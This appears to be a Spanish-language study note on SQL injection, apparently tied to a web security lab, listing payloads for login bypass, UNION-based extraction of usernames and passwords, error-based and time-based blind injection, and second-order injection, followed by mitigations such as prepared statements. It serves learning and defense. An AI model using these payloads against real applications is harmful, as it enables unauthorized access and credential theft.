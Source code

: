 # Ejemplos Prácticos de Inyección SQLi

## Listar contenido oculto
Una forma común de probar la [SQLi](SQLi.md) es modificar una URL para extraer datos que normalmente estarían ocultos.

```url
https://web-security-academy.net/filter?category=Pets%27+OR+1=1--
```
**Explicación:**
- `%27` es la codificación URL de `'` (comilla simple).
- `OR 1=1` siempre se evalúa como verdadero.
- `--` comenta el resto de la consulta SQL, evitando errores.

---

## Evadir Login con *Bypass*
Un atacante puede omitir la autenticación proporcionando entradas manipuladas en un formulario de inicio de sesión.

```txt
Login:

Username: administrator' --
Password: lo_que_sea
```
**Explicación:**
- `' --` cierra la consulta y comenta la parte de la contraseña, permitiendo acceso sin necesidad de conocerla.
- Funciona si la consulta es:
  ```sql
  SELECT * FROM usuarios WHERE usuario = 'administrator' AND clave = 'lo_que_sea';
  ```
  Pero se transforma en:
  ```sql
  SELECT * FROM usuarios WHERE usuario = 'administrator' -- ' AND clave = 'lo_que_sea';
  ```

---

## Obtener cantidad de columnas para ataques UNION
Se necesita conocer el número de columnas en la tabla antes de usar `UNION`.

```sql
ORDER BY 1 --
ORDER BY 2 --
ORDER BY 3 --  (Aumentar hasta que ocurra un error)
```
**Explicación:**
- `ORDER BY n` ayuda a determinar el número de columnas disponibles en la consulta.

---

## Encontrar columnas con tipos de datos útiles

```sql
UNION SELECT NULL, NULL, 'texto' --
```
**Explicación:**
- Se prueba con `NULL` hasta encontrar una columna donde se puede inyectar texto.

---

## Extraer usuarios y contraseñas

```sql
UNION SELECT username, password FROM users --
```
**Explicación:**
- Se usa `UNION` para extraer datos de la tabla `users`.

---

## SQLi basada en errores
Algunas bases de datos devuelven mensajes de error útiles que pueden revelar información.

```sql
' AND 1=CAST((SELECT clave FROM usuarios LIMIT 1) AS INT) --
```
**Explicación:**
- Intenta forzar un error al castear `clave` como entero.
- Si ocurre un error, significa que la columna existe.

---

## SQLi basada en tiempo (Blind SQL Injection)
Si no se obtiene respuesta directa, se pueden usar retrasos de tiempo.

```sql
' OR IF(1=1, SLEEP(5), 0) --
```
**Explicación:**
- Si la consulta es vulnerable, el servidor tardará 5 segundos en responder.

---

## SQLi de Segundo Orden
Se inyecta un payload en un lugar que no se ejecuta inmediatamente, sino en otro proceso posterior.

1️. Registro de usuario con payload malicioso:
```txt
Nombre: hacker'; INSERT INTO logs (mensaje) VALUES ('ataque exitoso'); --
```
2️. Cuando un administrador revisa los registros, se ejecuta la inyección.

**Explicación:**
- El ataque se ejecuta en otro punto de la aplicación, no inmediatamente.

---

## Cómo mitigar estos ataques
Usar **consultas preparadas** con parámetros seguros:
```sql
SELECT * FROM usuarios WHERE usuario = ? AND clave = ?;
```

**Escapar y validar entradas** del usuario.
**Restringir privilegios** de las cuentas de base de datos.
Implementar **WAFs** y herramientas de detección de ataques.

---

**Conclusión:** Estos ejemplos muestran lo peligroso que puede ser SQLi si no se implementan medidas de seguridad adecuadas.
